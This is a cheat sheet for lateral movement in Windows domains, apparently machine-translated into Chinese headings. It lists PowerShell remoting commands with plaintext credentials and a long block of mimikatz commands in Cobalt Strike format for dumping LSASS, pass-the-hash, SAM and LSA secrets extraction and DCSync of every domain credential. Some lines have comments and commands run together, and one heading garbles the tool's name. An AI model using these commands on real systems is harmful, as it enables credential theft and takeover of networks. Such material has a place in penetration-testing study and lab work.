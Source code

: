 # 横向运动

# Powershell 远程处理

```
#Enable Powershell Remoting on current Machine (Needs Admin Access)
Enable-PSRemoting#Entering or Starting a new PSSession (Needs Admin Access)
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

# 使用 PS 凭据远程执行代码

```
$SecPassword = ConvertTo-SecureString '<Wtver>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\<WtverUser>', $SecPassword)
Invoke-Command -ComputerName <WtverMachine> -Credential $Cred -ScriptBlock {whoami}
```

# 导入 powershell 模块并远程执行其功能

```
#Execute the command and start a session
Invoke-Command -Credential $cred -ComputerName <NameOfComputer> -FilePath c:\FilePath\file.ps1 -Session $sess #Interact with the session
Enter-PSSession -Session $sess
```

# 执行远程状态命令

```
#Create a new session
$sess = New-PSSession -ComputerName <NameOfComputer>#Execute command on the session
Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}#Check the result of the command to confirm we have an interactive session
Invoke-Command -Session $sess -ScriptBlock {$ps}
```

# 米米卡茨

```
#The commands are in cobalt strike format!#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp#List cached MasterKeys
mimikatz sekurlsa::dpapi#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys#Dump SAM Database
mimikatz lsadump::sam#Dump SECRETS Database
mimikatz lsadump::secrets#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all#List and Dump local kerberos credentials
```